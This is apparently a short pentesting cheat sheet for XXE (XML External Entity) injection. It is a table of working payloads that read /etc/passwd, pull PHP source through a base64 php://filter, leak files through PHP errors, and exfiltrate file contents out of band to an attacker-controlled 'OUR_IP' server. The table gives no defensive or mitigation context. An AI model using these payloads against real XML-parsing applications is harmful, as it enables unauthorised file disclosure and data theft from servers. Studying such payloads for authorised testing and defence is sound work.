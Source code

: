 # XXE

| **Code**                                                                           | **Description**                                |
| ---------------------------------------------------------------------------------- | ---------------------------------------------- |
| `<!ENTITY xxe SYSTEM "http://localhost/email.dtd">`                                | Define External Entity to a URL                |
| `<!ENTITY xxe SYSTEM "file:///etc/passwd">`                                        | Define External Entity to a file path          |
| `<!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">` | Read PHP source code with base64 encode filter |
| `<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">`        | Reading a file through a PHP error             |
| `<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">`  | Reading a file OOB exfiltration                |